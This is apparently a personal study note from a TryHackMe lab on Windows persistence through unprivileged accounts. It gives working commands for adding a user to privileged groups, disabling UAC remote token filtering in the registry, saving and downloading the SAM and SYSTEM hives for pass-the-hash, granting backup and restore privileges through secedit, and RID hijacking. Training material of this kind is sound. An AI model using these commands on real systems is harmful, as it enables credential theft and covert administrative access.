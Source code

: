 # Windows Persistence - Tampering with Unprivileged Accounts

## Assigning Group Memebership

Unprivileged Accounts less monitored than administrative accounts Assigning Groups Memberships is a direct way to gain administrative privileges.

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```

`LocalAccountTokenFilterPolicy` from [[Windows-User-Account-Control]] strips any local account of its administrative privileges when logging in remotely with a limited access token with no administrative privileges, to regain those change them in the registery:

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

With Evil-WinRm (see [[Evil-winrm-Cheatsheet]]) we can backup SAM and SYSTEM files and dowload them 

```powershell
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

With [[Impacket-Cheatsheet]] `secretsdump.py` we can dump the hashes of those files, and use Evil-Winrm to perform a pass-the-hash attack.

## Special Privileges and Security Descriptors
For reference see the official documentation regarding [Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) and forcomplete token table [[SePrivilege-Token-Table]].

The Backup Operators group has the following:
-   **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place, see [[SeBackup-Privilege]]
-   **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.

As this group we can assign the above privileges to any user regardless of group,
```powershell
secedit /export /cfg config.inf
# add username to the lines 
SeBackupPrivilege = *S-1-5...sid,<username>
SeRestorePrivilege = *S-1-5...sid,<username>
# convert .inf into .sdb, then load the configuration back into the system
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# This user can log in via WinRM; you can instead adding user to Remote Management group 
# Change the Security Descriptor; requires GUI.
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# add user
```

## RID Hijacking
Changing some registry values to trick the operating systemlike you are the Administrator. Relateive ID (RID) is assign on user creation when that user logs in the LSASS create a access token based the RID matched from the SAM registery hive. This method will require ability to edit the registery. With [[Sysinternals-Psexec]]
```powershell 
PsExec64.exe -i -s regedit
# Computer\HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users
```


## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
